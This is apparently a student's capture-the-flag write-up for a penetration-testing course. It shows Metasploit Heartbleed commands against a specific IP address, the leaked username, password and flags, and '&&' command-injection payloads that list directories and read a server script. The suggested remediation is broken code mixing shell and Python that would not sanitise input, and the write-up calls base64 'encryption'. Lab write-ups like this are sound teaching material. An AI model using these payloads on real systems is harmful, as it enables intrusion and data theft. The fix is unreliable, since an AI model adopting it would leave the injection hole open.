 # Penetration-Testing

## Part 1

For this part, I opened the metasploit console, and began to search for CVE-2014-0160, which led me to the heartbleed exploit which I selected to use. I then used an nmap scan (https://pentest-tools.com/network-vulnerability-scanning/tcp-port-scanner-online-nmap) to scan for all the open ports that were available on briong.com. After a short scan I discovered that ports 22, 80, and 443 were open, the nmap scan also helped me discover the IP address of the briong website: ```165.227.204.80```. I set the IP address of Mark's server to be the host machine, and kept the port at 443. I enabled verbose output, and then ran the exploit on the target machine. 

```
search CVE-2014-0160
use auxilary/scanner/ssl/openssl_heartbleed
show options
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```

This gave me a large amount of output, but from all this data a few keywords popped out at me, the username, password, flag, and easter egg. The easter egg was something not recognizable, but one thing that led me to believe that it was encrpyted was the ```'='``` character at the end of the long string of letters, I knew that this character is used as padding for 64bit encryption. 


```
Username: mnthomp22
Password: pass1234
Flag: CMSC389R-{h3art_bl33d}
Easter Egg: WAIT THIS ISN'T ENCRYPTION?? CMSC389R-{base64_is_still_used_for_crypt0}
```

## Part 2

In terms of my thought process, the first thing I did for this part was to search exploit_db (https://www.exploit-db.com/) for possible command line exploits we could use with the metasploit console, I did not find anything substantial that I could use and so I decided to connect to Mark's server with ```nc briong.com 45``` to run a few commands and implement some black box testing. After inputing a few commands with little success, I remembered that I could use ```&&``` to run two commands one after the other, so I started exploring the server running commands such as ```google.com && ls -a``` to look inside Mark's server. I located the ```home``` directory and ran ```google.com && ls home``` which revealed the ```flag.txt``` file which contained the flag:

```Flag: CMSC389R-{p1ng_c0mmand_inj3ction}```

In order to figure out how Mark could fix this vulnerability I searched for his script on his machine, while looking through the ```opt``` directory I found a script called ```container_startup.sh```. After looking it up by inputing ```google.com && cat /opt/container_startup.sh```. This resulted in the following script:

```
#!/bin/bash

unset domain

echo -n "Ping an IP or domain: "
read domain
>&2 echo "[$(date)] IP/DOMAIN: $domain"
echo "Pinging: $domain"
python -c "import commands; s,c = commands.getstatusoutput('ping -c 5 $domain'); print c"
```

It seems that Mark's problem is that he does not sanitize his input, anything that a user enters goes unchecked and is run, Mark could easily check his input by using regular expressions, something like this could work: 

```
/((([A-Za-z]{3,9}:(?:\/\/)?)(?:[-;:&=\+\$,\w]+@)?[A-Za-z0-9.-]+|(?:www.|[-;:&=\+\$,\w]+@)[A-Za-z0-9.-]+)((?:\/[\+~%\/.\w-_]*)?\??(?:[-\+=&;%@.\w_]*)#?(?:[\w]*))?)/
```

Aternatively, Mark could use input sanitization to remove any additional commands that someone may try to run while using his service. Something simple from python's ```urllib.parse``` library can work:

```
from urllib.parse import urlparse
ping -c 5 urlparse($domain)
```
